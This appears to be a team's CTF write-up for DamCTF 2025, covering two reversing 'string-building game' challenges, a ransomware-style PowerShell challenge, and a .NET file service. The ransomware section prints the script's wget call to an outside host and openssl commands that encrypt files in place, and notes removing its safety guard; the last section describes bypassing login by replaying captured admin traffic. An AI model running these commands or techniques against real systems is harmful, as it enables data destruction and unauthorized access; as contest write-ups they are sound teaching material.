

+++
date = 2025-05-12T11:00:00-03:00
draft = false
title = "DamCTF 2025"
description = "DamCTF 2025 — writeup for rev challenges"
tags = ['CTF', 'reversing']
categories = []
featured = true
[params]
  locale = "en"
+++

This past weekend (05/09-05/11), we participated in DamCTF 2025, organized by the Oregon State University Security Club. On this writeup, first we will focus on two reverse engineering challenges: 'Is it data or data?' and 'It's data, not data'. They're both related, in that they're two different versions of a similar 'game', albeit with different rules and possible commands. You could say 'not data' is a sequel to 'or data?', especially since the CTF admins recommended playing one after finishing the other.

## Is it data or data?
'Is it data or data?' does not have a problem description, it simply gives you an executable. Running it, it seems to simply print a chevron ('>'), expecting some form of input. Depending on your input, the program either closes or continues running. Not much to go off of with only this, so let's dive into the code. For decompiling, I used Ghidra.

Before we look into the main function, there are a few global variables that are initialized:
```C
void _INIT_1(void)
{
  DAT_001062c0 = &DAT_001062d0;
  std::string::_M_construct<char_const*>(&DAT_001062c0,"inagalaxyfarfaraway");
  __cxa_atexit(std::string::~string,&DAT_001062c0,&PTR_LOOP_00106008);
  DAT_001062a0 = &DAT_001062b0;
  std::string::_M_construct<char_const*>(&DAT_001062a0,"","");
  __cxa_atexit(std::string::~string,&DAT_001062a0,&PTR_LOOP_00106008);
  return;
}
```
Here, we see that two strings are initialized, one with the value `"inagalaxyfarfaraway"` in the variable `DAT_001062c0`, and another as an empty string in the variable `DAT_001062a0`.

Here's the decompiled main function:
```C
void FUN_00103a6a(void)
{
  char cVar1;
  
  do {
    cVar1 = FUN_0010286e();
    while (cVar1 == '\0') {
      cVar1 = FUN_00102f95();
    }
    DAT_00106280 = DAT_00106280 + 1;
    cVar1 = FUN_00102cd1();
  } while (cVar1 == '\0');
  FUN_00102d16();
  DAT_001062c0 = &DAT_001062d0;
  std::string::_M_construct<char_const*>(&DAT_001062c0,"inagalaxyfarfaraway");
  __cxa_atexit(std::string::~string,&DAT_001062c0,&PTR_LOOP_00106008);
  DAT_001062a0 = &DAT_001062b0;
  std::string::_M_construct<char_const*>(&DAT_001062a0,"","");
  __cxa_atexit(std::string::~string,&DAT_001062a0,&PTR_LOOP_00106008);
  return;
}
```
There is some redundant initialization at the bottom, we've already seen that in `INIT_1`. Let's focus on the do...while loop, the core of this program. The first function called is `FUN_0010286e`, and it's return value is saved on `cVar1`
```C
undefined8 FUN_0010286e(void)
{
  ulong uVar1;
  ulong uVar2;
  ulong uVar3;
  
  uVar2 = DAT_001062a8;
  if (DAT_00106280 == 7) {
    uVar1 = DAT_001062a8 + 1;
    uVar3 = DAT_001062b0;
    if (DAT_001062a0 == &DAT_001062b0) {
      uVar3 = 0xf;
    }
    if (uVar3 < uVar1) {
      std::string::_M_mutate(0x1062a0,DAT_001062a8,(char *)0x0,0);
    }
    *(undefined1 *)((long)DAT_001062a0 + uVar2) = 0x67;
    DAT_001062a8 = uVar1;
    *(undefined1 *)((long)DAT_001062a0 + uVar2 + 1) = 0;
    return 1;
  }
  return 0;
}
```
This function checks if `DAT_00106280` is equal to 7, and if it is, it appends a 'g' (ASCII 0x67) to `DAT_001062a0`. Well, we remember `DAT_001062a0` is the empty string that was initialized earlier. Not only that, if we look at the main function, we see that `DAT_00106280` is incremented by one in every loop iteration. Easy to infer that `DAT_00106280`is a 'turn' or 'round' counter in this program. When we get to the seventh round, a g is appended to the empty string. This already tells us a lot! We're most likely building a string on `DAT_001062a0`, one turn at a time, with the most probable goal being to build 
`"inagalaxyfarfaraway"`.

If `DAT_00106280` is not equal to 7, the function returns 0, and in those cases `FUN_00102f95` is called next by main. This is a big one, I'll cut off the variable declarations and focus on the most important part:
```C
iVar3 = FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_228,0,10);
      if (iVar3 == 1) {
        uVar9 = (uint)DAT_00106010;
        if ((DAT_00106010 != 0) &&
           (((local_200 != 1 || ((char)*local_208 != '0')) || (uVar9 = (uint)bVar7, iVar8 != 1)))) {
          FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_208,0,10);
          uVar4 = FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_208,0,10);
          uVar9 = FUN_00102b1c(uVar4);
        }
      }
      else {
        iVar8 = FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_228,0,10);
        if (iVar8 == 0xb) {
          FUN_00102bb1();
          uVar9 = 1;
        }
        else {
          iVar8 = FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_228,0,10);
          if (iVar8 == 0xd) {
            FUN_00102c4f();
            uVar9 = 1;
          }
          else {
            iVar8 = FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_228,0,10);
            if (iVar8 == 4) {
              FUN_00102bd1();
              uVar9 = 1;
            }
            else {
              iVar8 = FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_228,0,10);
              if (iVar8 == 5) {
                FUN_00102cad();
                uVar9 = 1;
              }
              else {
                iVar8 = FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_228,0,10);
                if (iVar8 == 6) {
                  FUN_00102900();
                  uVar9 = 1;
                }
                else {
                  iVar8 = FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_228,0,10);
                  if (iVar8 == 7) {
                    FUN_00102924();
                    uVar9 = 1;
                  }
                  else {
                    iVar8 = FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_228,0,10);
                    if (iVar8 == 0xf) {
                      FUN_001029a2();
                      uVar9 = 1;
                    }
                    else {
                      iVar8 = FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_228,0,10);
                      if (iVar8 == 9) {
                        FUN_00102a20();
                        uVar9 = 1;
                      }
                      else {
                        iVar8 = FUN_00103b1f(__isoc23_strtol,&DAT_00104045,local_228,0,10);
                        if (iVar8 == 10) {
                          FUN_00102a9e();
                          uVar9 = 1;
                        }
                        else {
                          uVar9 = (uint)bVar7;
                          if (local_220 == 8) {
                            iVar8 = memcmp(local_228,"00111111",8);
                            if (iVar8 == 0) {
                              FUN_001025e9();
                    // WARNING: Subroutine does not return
                              exit(0);
                            }
                            uVar9 = (uint)bVar7;
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
```
A lot to unpack here. This is the core of the program, with a whole bunch of if-else checks. It's important to know `FUN_00103b1f` is a simple srttol wrapper created by the decompiler, and it is called to turn the user's input of the current turn into an integer. Let's refer to the user's inputs as 'commands', here we can see a plethora of possible commands that we can use per turn. The grand majority of commands consist of only an integer, the exception being the command '1' which accepts extra arguments. This isn't necessary for solving the problem, so I wont't dive into it.
Let's look at the first 'else', that executes a function for the command '11' (0x0b). The function called is `FUN_00102bb1`
```C
void FUN_00102bb1(void)
{
  if (0 < (int)DAT_001062a8) {
    *(undefined1 *)(DAT_001062a0 + ((int)DAT_001062a8 + -1)) = 0x74;
  }
  return;
}
```
Don't forget `DAT_001062a0` is the string that was initialized as empty! We already saw a case in which it is modified, appending a g to the end of it when we reach the seventh turn. This function modifies it by replacing the last character of it with a t (ASCII 0x74). Well, we're definitely finding a pattern here. Let's look at another case, `FUN_00102bd1`, which is called for the command '4'
```C
void FUN_00102bd1(void)
{
  ulong uVar1;
  ulong uVar2;
  ulong uVar3;
  
  uVar2 = DAT_001062a8;
  uVar1 = DAT_001062a8 + 1;
  uVar3 = DAT_001062b0;
  if (DAT_001062a0 == &DAT_001062b0) {
    uVar3 = 0xf;
  }
  if (uVar3 < uVar1) {
    std::string::_M_mutate(0x1062a0,DAT_001062a8,(char *)0x0,0);
  }
  *(undefined1 *)((long)DAT_001062a0 + uVar2) = 0x66;
  DAT_001062a8 = uVar1;
  *(undefined1 *)((long)DAT_001062a0 + uVar2 + 1) = 0;
  return;
}
```
Again, this function modifies `DAT_001062a0`, this time by appending an f (ASCII 0x66) to the end of it. This closes the case, we're definitely building a string, one character at a time, based on individual commands per turn. Here is my mapping of all the commands and the functions they call:
```
4 FUN_00102bd1: append 'f' to the string.

5 FUN_00102cad: decreases ascii value of the last character by 1

6 FUN_00102900: increments the ascii value of the last character by 3

7 FUN_00102924: append 'a' to the string.

9 FUN_00102a20: append 'z' to the string.

10 FUN_00102a9e: append 'm' to the string.

11 (0xb) FUN_00102bb1: changes the last character to 't'.

13 (0xd) FUN_00102c4f: delete the last character.

15 (0xf) FUN_001029a2: append 'r' to the string.
```
We've made some fair assumptions about why we're building this string, but now it's time to confirm it by analyzing the last function called on the main's loop: `FUN_00102cd1`
```C
undefined8 FUN_00102cd1(void)
{
  int iVar1;
  undefined8 uVar2;
  undefined4 extraout_var;
  
  uVar2 = 0;
  if ((DAT_001062c8 == DAT_001062a8) && (uVar2 = 1, DAT_001062c8 != 0)) {
    iVar1 = memcmp(DAT_001062c0,DAT_001062a0,DAT_001062c8);
    return CONCAT71((int7)(CONCAT44(extraout_var,iVar1) >> 8),iVar1 == 0);
  }
  return uVar2;
}
```
This function checks if `DAT_001062a8` (the string we're building) and `DAT_001062c8` (`'inagalaxyfarfaraway'`) are equal. If they aren't, it returns 0. If they are, it returns 1 (in a very odd way). When it returns 1, the loop ends. This closes the game, our objective is definitely to build `'inagalaxyfarfaraway'` using the commands available. When we close the loop, `FUN_00102d16` is called. There's a lot of decompiled gibberish here, but amidst it, we see a light in the end of the tunnel!
```C
void FUN_00102d16(void)
{
    ...
    std::ifstream::ifstream((ifstream *)local_248,"flag.txt",8);
    ...
}
```
Finally, we totally understand what this program does. In fact, it's a game! A game where we must build a string, one character at a time. Let's play it!
```
4 -- Insert f (f)
6 -- f + 3 -> i (i)
10 -- Insert m (im)
6 -- m + 3 -> p (ip)
5 -- p - 1 -> o (io)
5 -- o - 1 -> n (in)
7 -- Insert a (ina)
(inag) g added automatically
7 -- Insert a (inaga)
10 -- Insert m (inagam)
5 -- m - 1 -> l (inagal)
7 -- Insert a (inagala)
9 -- Insert z (inagalaz)
5 -- z - 1 -> y (inagalay)
5 -- y - 1 -> x (inagalax)
9 -- Insert z (inagalaxz)
5 -- z - y -> y (inagalaxy)
4 -- Insert f (inagalaxyf)
7 -- Insert a (inagalaxyfa)
0xf -- Insert r (inagalaxyfar)
4
7
0xf -- (inagalaxyfarfar)
7 -- (inagalaxyfarfara)
9 -- (inagalaxyfarfaraz)
5 -- (inagalaxyfarfaray)
5 -- (inagalaxyfarfarax)
5 -- (inagalaxyfarfaraw)
7 -- (inagalaxyfarfarawa)
9 -- (inagalaxyfarfarawaz)
5 -- (inagalaxyfarfaraway)
```
Using this order of commands, I built a simple solver:
```python
from pwn import *

HOST = "isitdata.chals.damctf.xyz"
PORT = 39531

commands = [
    ... #commands shown above
]

io = remote(HOST, PORT)

for i, cmd in enumerate(commands):
    io.recvuntil(b"> ")
    log.info(f"({i+1}): {cmd}")
    io.sendline(cmd.encode())

final_output = io.recvall(timeout=5)
log.success(f"\n{final_output}")

io.close()
```
Running this, we finally get the flag:\
 `dam{I_dont_like_silicon_it_makes_cpus_and_theyre_everywhere}`

## It's data, not data
This is merely a more complex version of the game we played in the first challenge. Let's look at the main function:
```C
// MAIN - FUN_00104478
// This time, we gotta generate the string episode3,57min34sec
void main(void)

{
  char cVar1;
  // Initial string setup
  FUN_001032b8();
  do {
    do {
      FUN_00102d64();
      FUN_00103000();
      cVar1 = FUN_00103956();
    } while (cVar1 == '\0');
    DAT_0010701c = DAT_0010701c + 1;
    cVar1 = FUN_00102fa6();
  } while (cVar1 == '\0');
  FUN_00103039();
  DAT_001072c0 = &DAT_001072d0;
  std::string::_M_construct<char_const*>(&DAT_001072c0,"episode3,57min34sec");
  __cxa_atexit(std::string::~string,&DAT_001072c0,&PTR_LOOP_00107008);
  DAT_001072a0 = &DAT_001072b0;
  std::string::_M_construct<char_const*>(&DAT_001072a0,"","");
  __cxa_atexit(std::string::~string,&DAT_001072a0,&PTR_LOOP_00107008);
  return;
}
```
There are a few important differences. `FUN_001032b8` is the first function called, and it initializes the string based on the very first input. This time around, the string doesn't start out empty, instead it is generated based on a number the user inputs as the very first command. This number serves as a seed. Well, no problem, we must simply manipulate this randomly generated string instead of an empty string.
Inside the loop, we see some more function call as well, but they're here for the convenience of the player. They print data on screen during each turn. Now, we have a nice status screen that shows both our current string and the target string, as well as where the pointer is located on our string. Handy!
Example of string generated with seed '3' and game screen:
```
3
Move Number: 1 of 100
Target : episode3,57min34sec
Current: e'io<,QVtJu",n48%)J
```
This time, we also have a move limit. However, it is very generous. The function that contains all our commands is now `FUN_00103956`. Here's my mapping of all the commands:
```
FUN_00102e75 - 1 value: 
    Sets the character DAT_001072a0[9] to char(value)
    value must be a ascii char in hex
    only works once
    Resets counters for commands 2 & 3 by running FUN_00102e5c (same function call for the other counter resets)

FUN_001035b2 - 2:
    Increments DAT_001072a0[9]. The amount added is 3 for the first three consecutive uses. After that the added ammt is random 3<=x=>5
    Increments its own usage counter DAT_00107284

FUN_00103784 - 3: 
    Decrements DAT_001072a0[9]. The amount subtracted is 1 for the first five consecutive uses. After that the subbd ammt is random 1<=x=>3
    Increments its own usage counter DAT_00107280

FUN_00102eab - 7:
    Sets DAT_001072a0[7] to 7 (ascii 55)
    only command that directly modified another memory slot that isn't [9]
    Resets counters for commands 2 & 3

FUN_00102f26 - 8:
    Swaps DAT_001072a0[9] with DAT_001072a0[9+2]
    wraps around
    Resets counters for commands 2 & 3

FUN_00102ebb - 9:
    Swaps DAT_001072a0[9] with DAT_001072a0[9-1]
    Wraps around
    Resets counters for commands 2 & 3

FUN_00102de9 15 (0xf):
    Sets DAT_001072a0[9] to G (ascii 71)
    Resets counters for commands 2 & 3

FUN_00102e2e 19 (0x13):
    Sets DAT_001072a0[9] to c (ascii 99)
    Resets counters for commands 2 & 3

FUN_00102e45 22 (0x16):
    Sets DAT_001072a0[9] to ; (ascii 59)
    Resets counters for commands 2 & 3

FUN_00102e00 24 (0x18):
    Sets DAT_001072a0[9] to q (ascii 113)
    Resets counters for commands 2 & 3

FUN_00102e17 57 (0x39):
    Sets DAT_001072a0[9] to W (ascii 87)
    Resets counters for commands 2 & 3
```
Nice, now it's time to play... right? Well, there's a problem: at first sight, it seems we can really only modify the characters in the positions 7, 8, 9 and 11. Well, that complicates things. This got us stuck for a bit, for a while we thought the solution was to go through a bunch of seeds looking for a seed that started with every character already correct except for 8, 9 and 11. This got us nowhere. So we were stumped, we can't move the pointer at all? This makes the game impossible!\
Well, let's look at *all* the functions in the decomp. There must be something we are missing!
Of course there was, we found these two functions in the code:
```C
undefined8 FUN_00102d91(void)
{
  if (DAT_00107018 == 0) {
    DAT_00107018 = (int)DAT_001072c8;
  }
  DAT_00107018 = DAT_00107018 + -1;
  return 0;
}

undefined8 FUN_00102db7(void)
{
  int iVar1;
  
  iVar1 = DAT_00107018 + 1;
  if ((long)DAT_00107018 == DAT_001072c8 + -1) {
    iVar1 = 0;
  }
  DAT_00107018 = iVar1;
  return 0;
}
```
They can move the pointer left and right. However, it seemed as if they were unreachable, as they weren't explicity called anywhere. This was the missing piece that stumped a lot of players, and it was a smart trick placed by the challenge developers using an exception handler. And it seems like most decompilers are fooled by this, leaving these function calls mostly obfuscated.\
 During the challenge, we actually just figured this out by guessing, and eventually we found out that these functions are called by the commands 'l' and 'r'. Being able to move the pointer makes this easy, it's just a matter of playing the game and building the desired string.\
Before we show the solution, let's dive a little deeper into these obfuscated function calls. Here is the original code, provided by the devs after the CTF ended:
```C
    std::string input_full, input_word, func = "0", args ="0", func_pass;
	int index = 0;
		
	std::cout << "> ";
	getline(std::cin, input_full);
	std::stringstream ss(input_full);
	while (getline(ss, input_word, ' '))
	{
		if (index == 0) {func = input_word;}
		else if (index == 1) {args = input_word;}
		index++;
	}

	try
	{
		stoi(func);
	}
	catch (const std::invalid_argument & e) {
		if (func == "l") {return(data_move_left());}
		else if (func == "r") {return(data_move_right());}
		else {return false;}
	}
```
This code checks if `stoi` throws an error, and this will happen if `func` contains an invalid character. In this case, we want it to, when we type 'l' and 'r'. The decompilation doesn't clearly show the equivalent of the `catch (const std::invalid_argument & e)` block from the original code, decompilers often struggle with dealing with the high level logic of `try...catch` blocks. Which is why, in `FUN_00103956` we can see all the commands for numeric values, but not the two possible character based commands.

I won't show the entire solution sequence we used here, you can check out the logs at our [github repo](https://github.com/cloudlabs-ufscar/blog/blob/main/content/sec/dam-ctf-2025-data/its_data_not_data/solution.txt), as well as all the other files for the challenges and the ones we used for solving them. In the end, after playing the game, we got the flag `dam{git_branch_origin._you_are_a_pulled_one}`.

## bash.ps1

The challenge description was

> ⚠️ WARNING: do not run this! this will actually mess up your system!

and two files were given: [bash.ps1](https://github.com/cloudlabs-ufscar/blog/blob/main/content/sec/dam-ctf-2025-data/bash_ps1/bash.ps1) and [enc](https://github.com/cloudlabs-ufscar/blog/blob/main/content/sec/dam-ctf-2025-data/bash_ps1/enc).

First, we asked Google Gemini to deobfuscate [bash.ps1](https://github.com/cloudlabs-ufscar/blog/blob/main/content/sec/dam-ctf-2025-data/bash_ps1/bash.ps1) for us, the results of which we present in [bash\_deobfuscated.ps1](https://github.com/cloudlabs-ufscar/blog/blob/main/content/sec/dam-ctf-2025-data/bash_ps1/bash_deobfuscated.ps1).

Reading the deobfuscated file generated by Gemini, it's clear that the script calls two external tools: `openssl` and `wget`. The arguments passed to `openssl` are mostly guessed correctly by Gemini, but the URL passed to `wget` is not.

We decide to run `bash.ps1`. For safety, we run it inside a container. Notice from the source it refuses to run if the system is not Ubuntu noble, then we need to run inside an Ubuntu noble container. Also, notice we need to remove the following line, which is a safety lock the CTF organizers put to prevent beginners from running the ransomware in their own system:

```powershell
if ((&(Get-Command /???/?at) /sys/class/net/enp0s3/address) -cne "08:00:27:eb:6b:49"){exit} # intentional guard in chal to prevent accidentally running the script
```

Then, we start the container, install PowerShell, and create fake `/usr/bin/openssl` and `/usr/bin/wget` executables to collect the arguments passed to them:

```text
host$ wget https://packages.microsoft.com/ubuntu/24.04/prod/pool/main/p/powershell/powershell_7.5.1-1.deb_amd64.deb
[...]

host$ docker run -v ./:/chal:ro -w /chal -it --rm ubuntu:24.04 bash

root@77670f862d1b:/chal# apt update
[...]

root@77670f862d1b:/chal# dpkg -i powershell_7.5.1-1.deb_amd64.deb
[...]
dpkg: error processing package powershell (--install):
 dependency problems - leaving unconfigured

root@77670f862d1b:/chal# apt -f install
[...]

root@77670f862d1b:/chal# cat > /usr/bin/openssl
#!/bin/sh
echo "$@" >> /tmp/openssl_args
^D

root@77670f862d1b:/chal# cat > /usr/bin/wget
#!/bin/sh
echo "$@" >> /tmp/wget_args
^D

root@77670f862d1b:/chal# chmod +x /usr/bin/openssl /usr/bin/wget

root@77670f862d1b:/chal# pwsh bash.ps1
^C

root@77670f862d1b:/chal# cat /tmp/wget_args
35.87.165.65:31337/key -q -O A

root@77670f862d1b:/chal# cat /tmp/openssl_args
enc -aes-256-cbc -pass file:key -in /opt/microsoft/powershell/7/Microsoft.PowerShell.ConsoleHost.xml -out /opt/microsoft/powershell/7/Microsoft.PowerShell.ConsoleHost.xml
enc -aes-256-cbc -pass file:key -in /opt/microsoft/powershell/7/libhostfxr.so -out /opt/microsoft/powershell/7/libhostfxr.so
enc -aes-256-cbc -pass file:key -in /opt/microsoft/powershell/7/System.Globalization.Extensions.dll -out /opt/microsoft/powershell/7/System.Globalization.Extensions.dll
enc -aes-256-cbc -pass file:key -in /opt/microsoft/powershell/7/System.Runtime.CompilerServices.Unsafe.dll -out /opt/microsoft/powershell/7/System.Runtime.CompilerServices.Unsafe.dll
[...]

root@77670f862d1b:/chal# exit
```

Finally, we got the [key](https://github.com/cloudlabs-ufscar/blog/blob/main/content/sec/dam-ctf-2025-data/bash_ps1/key) file from `http://35.87.165.65:31337/key` (now offline) and used it to decipher the provided `enc` file:

```text
host$ openssl enc -d -aes-256-cbc -pass file:key -in enc
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
dam{unattended_arch_boxes_will_be_given_powershell}
```

## complex-file-service

The challenge description was

> Yeah, at SuperComplicatedTechnology LLC, we like to really push for cutting edge technology, so we're going to do you a HUGE favor by giving you a super-secret Demo of our file storage software. It's a total drop-box killer, and we'll only quote your company $10,000 per license.
>
> `complex-file-service.chals.damctf.xyz`
>
> Place complex-file-service.chals.damctf.xyz:27777 in remote.txt for client binary

and two files were given: [client-binary.zip](complex-file-service/client-binary.zip) and [server-binary.zip](complex-file-service/server-binary.zip).

First, we identified the [version of the .NET SDK](https://builds.dotnet.microsoft.com/dotnet/Sdk/8.0.408/dotnet-sdk-8.0.408-linux-x64.tar.gz) used by them. We downloaded it and unpacked to `../dotnet`.

The client failed when we tried to write host:port to `remote.txt` as requested, until we realized the file could not have an ending newline:

```text
client$ echo -n 'complex-file-service.chals.damctf.xyz:27777' >remote.txt
client$ ../dotnet/dotnet FileServiceUI.dll
```

It worked and asked for an username and password. Then, we started to reverse engineer both the client and server using [avaloniailspy](https://aur.chaotic.cx/packages?search=avaloniailspy-git).

```csharp
// ComplexFileService.Startup
// [...]
public void Configure(IApplicationBuilder app)
{
    // [...]
	Console.WriteLine("[*] Setting up DB...");
	string admin_password = Encoding.ASCII.GetString(readFile("admin_pw.txt").ToArray());
	global::UserDatabase.UserDatabase UserDB = global::UserDatabase.UserDatabase.Instance;
	UserDB.registerNewUser("Admin", admin_password);
	UserDB.registerNewUser("UI_User", "UI_User");
    // [...]
}
``` 

The `UI_User` / `UI_User` credentials worked when connecting to the remote server, but the `Admin` / `local_testing_placeholder` credentials (as one might expect) did not. We realized we probably needed to somehow escalate privileges from `UI_User` to `Admin`.

We started to test with a local server. We noticed the provided `admin_pw.txt` file did not contain an usable password since it had an ending newline, thus we had to fix it:

```text
server$ echo -n 'local_testing_placeholder' >admin_pw.txt
server$ ../dotnet/dotnet dist/ComplexFileService.dll
```

To run the client connected to the local server:

```text
client$ echo -n 'localhost:1337' >remote.txt
client$ ../dotnet/dotnet FileServiceUI.dll
```

We proceeded reverse engineering the server and noticed there was no session management. The login method had no side effects at all!

```csharp
public long loginUser(string username, string password)
{
    lock (padlock)
    {
        long password_hash = HashPassword(password);
        DbCommand cmd = setupQuery("\n                SELECT user_id FROM USERS\n                WHERE username = $username AND password_hash = $pw_hash\n                LIMIT 1;\n                ", new Dictionary<string, string>
        {
            { "$username", username },
            {
                "$pw_hash",
                password_hash.ToString()
            }
        });
        try
        {
            object user_id = cmd.ExecuteScalar();
            if (user_id == null)
            {
                return -1L;
            }
            return (long)user_id;
        }
        catch (SqliteException)
        {
            return -1L;
        }
    }
}
```

Moreover, the `user_id` returned by `loginUser` was completely predictable: `1` for `Admin` and `2` for `UI_User`.

### Failed first try: modifying the client

First idea was to modify the client. Unfortunatelly, avaloniailspy does not support modifying IL, thus we needed to install [dnspy](https://github.com/dnSpy/dnSpy) in a Windows VM.

We identified the following excerpt:

```text
/* (hidden)-(hidden) /Users/milandonhowe/Development/DAMCTF25/damctf-2025-challenges/rev/complex-file-service/client-source/API.cs */
/* 0x000020C0 02           */ IL_0000: ldarg.0
/* 0x000020C1 7B3D000004   */ IL_0001: ldfld     int32 CFS_MVVM.API.ApiInstance/'<Login>d__6'::'<>1__state'
/* 0x000020C6 0A           */ IL_0006: stloc.0
/* 0x000020C7 02           */ IL_0007: ldarg.0
/* 0x000020C8 7B3F000004   */ IL_0008: ldfld     class CFS_MVVM.API.ApiInstance CFS_MVVM.API.ApiInstance/'<Login>d__6'::'<>4__this'
/* 0x000020CD 0B           */ IL_000D: stloc.1
.try
{
/* (hidden)-(hidden) /Users/milandonhowe/Development/DAMCTF25/damctf-2025-challenges/rev/complex-file-service/client-source/API.cs */
/* 0x000020CE 06           */ IL_000E: ldloc.0
/* 0x000020CF 2C59         */ IL_000F: brfalse.s IL_006A

/* (46,13)-(46,39) /Users/milandonhowe/Development/DAMCTF25/damctf-2025-challenges/rev/complex-file-service/client-source/API.cs */
/* 0x000020D1 07           */ IL_0011: ldloc.1
/* 0x000020D2 7B31000004   */ IL_0012: ldfld     class ServiceReference.UserServiceClient CFS_MVVM.API.ApiInstance::userSvcClient
/* 0x000020D7 2D09         */ IL_0017: brtrue.s  IL_0022

/* (46,40)-(46,50) /Users/milandonhowe/Development/DAMCTF25/damctf-2025-challenges/rev/complex-file-service/client-source/API.cs */
/* 0x000020D9 1FFE         */ IL_0019: ldc.i4.s  -2
/* 0x000020DB 6A           */ IL_001B: conv.i8
/* 0x000020DC 0C           */ IL_001C: stloc.2
/* 0x000020DD DD96000000   */ IL_001D: leave     IL_00B8
```

We changed `brtrue.s  IL_0022` to `brfalse.s  IL_0022` and `ldc.i4.s  -2` to `ldc.i4.s  1`. This is ugly, but we wanted to avoid changing instruction size, since we did not know if that would cause problems.

We ran the client and confirmed it got `1` as the user id even though we logged in with `UI_User`:

```
[*] Logging in with Username="UI_User" and Password="UI_User"
[*] Got user id=1
[*] files count: 0, files=System.String[]
```

Unfortunatelly, for some reason we do not know, it did not work. The server returned no files.

### Replay!

Instead of banging our head until the modified client worked, we had another idea.

Since we could run a local server, what about logging in as `Admin` to the local server (since we can choose its password), then replaying that traffic to the remote server?

We fired wireshark, started to capture from loopback, then used the client to log in to the local server and download the `flag` file.

Then, we used the `Follow TCP Stream` option and asked to show traffic as `Raw`:



Finally, we copied the hex strings in red (commands sent by the client) to [solve.py](https://github.com/cloudlabs-ufscar/blog/blob/main/content/sec/dam-ctf-2025-data/complex-file-service/solve.py) and ran it to replay the commands to the remote server:

```text
$ python solve.py
[+] Opening connection to complex-file-service.chals.damctf.xyz on port 27777: Done
b'\x0b'
b'\x06\xc4\x04\xd4\x010http://tempuri.org/IFileService/GetFilesResponse\x10GetFilesResponse\x13http://tempuri.org/\x0eGetFilesResult9http://schemas.microsoft.com/2003/10/Serialization/Arrays)http://www.w3.org/2001/XMLSchema-instance\x06string\x03nilV\x02\x0b\x01s\x04\x0b\x01a\x06V\x08D\n\x1e\x00\x82\xab\x01D\x12\xad\x8bf`|\xaa\x8c\xacE\x8dL\xa8!\x97\x0cp\x99D\x0c\x1e\x00\x82\xab\x14\x01V\x0eB\x03\n\x05B\x07\x0b\x01b\t\x0b\x01i\x0bE\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01E\r\x14\x0f\x86\x01\x01\x01'
